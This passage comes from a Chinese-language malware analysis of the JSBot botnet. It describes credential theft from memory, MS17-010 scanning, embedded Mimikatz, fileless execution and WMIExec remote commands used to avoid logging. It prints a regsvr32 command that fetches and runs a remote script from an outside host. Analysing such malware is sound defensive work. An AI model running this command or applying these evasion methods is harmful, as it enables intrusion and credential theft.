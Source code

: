 函数Get-creds，盗取内存中的秘钥

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0181f588ca7de1a7f5.jpg)

函数Scan,利用MS17-010对外进行扫描

[![](https://p1.ssl.qhimg.com/t011ead2fbaf09f6d5d.jpg)](https://p1.ssl.qhimg.com/t011ead2fbaf09f6d5d.jpg)

整体解码后可以得到JSBot如下核心功能

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011ff20c7e4f26cc7d.jpg)

#### <a class="reference-link" name="%24miiiiii%E5%8F%82%E6%95%B0%E8%A7%A3%E7%A0%81%E4%BA%8C%E8%BF%9B%E5%88%B6"></a>$miiiiii参数解码二进制

Dll导出函数中包含powershell_reflective_mimikatz

[![](https://p2.ssl.qhimg.com/t015ce618d63401516b.jpg)](https://p2.ssl.qhimg.com/t015ce618d63401516b.jpg)

文件中对该Mimikatz工具进行了集成

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013ae2bee470fffee1.jpg)



## 逃逸手段分析

JSBot为了规避检测在整体流程中采用了多种组合方式，其中比较典型的有以下几类

#### <a class="reference-link" name="%E6%97%A0%E6%96%87%E4%BB%B6%E5%86%85%E5%AD%98%E5%8C%96%E8%BF%90%E8%A1%8C"></a>无文件内存化运行

JSBot通过regsvR32执行命令，调用scrobj.dll的DllInstall函数，将URL中所带的COM组件写入注册表中，由于脚本运行于Windows平台上的脚本宿主机WSH(Widnows Scripting Host)，故文件可以不落盘。

`C:\\Windows\\system32\\regsvR32.EXE /u/s/i:http://cat.xiaoshabi.nl/networks.xsl scrobj.dll`

而在Powershell脚本中JSBot通过一系列函数在内存空间中将PE写入，同样实现了无文件落盘的操作，如图写内存函数

[![](https://p3.ssl.qhimg.com/t01df51a75434a8f0ac.jpg)](https://p3.ssl.qhimg.com/t01df51a75434a8f0ac.jpg)

程序执行入口

[![](https://p2.ssl.qhimg.com/t01dd05db879cbcfed8.jpg)](https://p2.ssl.qhimg.com/t01dd05db879cbcfed8.jpg)

JSBot使用WMIExec来远程执行命令，Windows系统默认不会在日志中记录这些操作，可以做到无日志，攻击脚本无需写入磁盘。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017bd498faacffd024.jpg)
